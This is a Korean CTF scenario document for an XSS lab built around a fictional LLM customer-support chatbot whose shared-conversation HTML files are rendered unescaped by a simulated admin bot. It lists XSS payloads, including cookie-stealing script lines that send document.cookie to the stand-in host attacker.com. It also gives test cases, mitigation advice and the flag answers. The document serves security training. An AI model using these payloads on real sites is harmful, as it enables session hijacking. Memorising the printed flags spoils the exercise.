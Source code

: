 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

글로벌 IT 기업 LLL Corporation의 J 대리는 회사에서 도입한 신규 고객 상담 챗봇 ChatLLL을 이용해 타인에게 파일을 공유하려 한다. J 대리는 관리자 봇의 부적절한 출력을 피해, Cross-Site Scripting(XSS)의 취약점을 활용해 쿠키를 탈취해야 한다.

부적절한 출력 처리(Improper Output Handling) 취약점은 웹 애플리케이션이 J 대리의 입력을 적절히 검증하거나 인코딩하지 않고 HTML 문서에 직접 삽입할 때 발생하는 보안 취약점이다. 공격자가 악의적인 JavaScript 코드를 삽입하여 다른 J 대리의 브라우저에서 실행시킬 수 있는 공격 기법이다.

이 시나리오는 대화 내역 저장 기반 챗봇 동작과 HTML 공유 기능 악용이라는 두 구조로 동작한다:

대화 저장 시 컨버세이션 히스토리를 갱신한다. J 대리가 ChatLLL 화면에 메시지를 입력하면, 시스템은 내용을 conversation_history에 그대로 기록해 이후 참조용으로 유지한다.

LLM 호출 시 고객 상담 응답을 생성한다. ctf05_LLM_ask() 함수가 conversation_history의 최신 메시지를 컨텍스트로 사용해 OpenAI GPT-3.5-turbo를 호출하고, 챗봇 답변을 반환한다.

HTML 공유 시 대화 내역을 문서화한다. J 대리가 “HTML 파일 생성하기” 버튼을 누르면 ctf05_generate_share_html() 함수가 전체 대화 내역을 HTML 템플릿에 삽입해 파일로 저장한다. 이때, J 대리의 입력은 이스케이프 처리를 거치지 않고 <div> 내부에 원문 그대로 포함된다.

관리자 봇은 HTML 파일을 자동으로 로드한다. ctf05_admin_bot_visit() 함수가 Headless Chrome을 통해 생성된 HTML 파일을 열어 관리자 검토 과정을 시뮬레이션한다.

XSS 페이로드 실행 시 플래그를 획득할 수 있다. HTML이 로드되는 순간, J 대리 입력에 숨겨져 있던 악성 <script> 코드가 관리자 브라우저에서 실행되어 세션 쿠키 탈취·권한 상승 등이 가능해지며, 조건 충족 시 플래그가 노출된다.

🎯 공략 대상: J 대리는 악성 JavaScript 코드를 다양한 입력 벡터에 삽입하여 악용할 수 있다.

    - 악성 스크립트 삽입: 챗봇에게 <script>alert('XSS')</script> 같은 JavaScript 코드를 포함한 메시지를 전송한다.

    - 쿠키 탈취 페이로드: <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script> 같은 코드로 관리자 쿠키를 외부 서버로 전송한다.

    - DOM 조작: <script>document.body.innerHTML = '<h1>Hacked!</h1>'</script> 같은 코드로 HTML 문서를 조작한다.

    - 이미지 태그 활용: <img src=x onerror="alert('XSS')">처럼 이미지 오류 이벤트를 이용한 스크립트 실행도 가능하다.

    - HTML 엔티티 우회: 필터링이 있다면 &lt;script&gt; 같은 HTML 엔티티를 이용해 우회를 시도할 수 있다.

생성된 HTML 파일에서는 admin_session=ctf05_flag 쿠키가 설정되므로, J 대리가 이를 탈취하면 플래그를 획득할 수 있다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입하기

* 공유 HTML 기능을 통해 관리자 봇에게 해당 HTML 열람 유도하기

* XSS 실행 시 `admin_session=ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}` 쿠키를 탈취하여 외부로 전송하기

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 💬 대화 내용 공유 창 | 대화 내용 공유 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 🔥 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 🕸️ 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 🛡️ 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. ✅ 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|-----|-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```bash
flag{llm_xss_success}
```

* 정답 시: `✅ 정답입니다!`
* 오답 시: `❌ 틀렸습니다.`

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함

* 플래그: `ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}`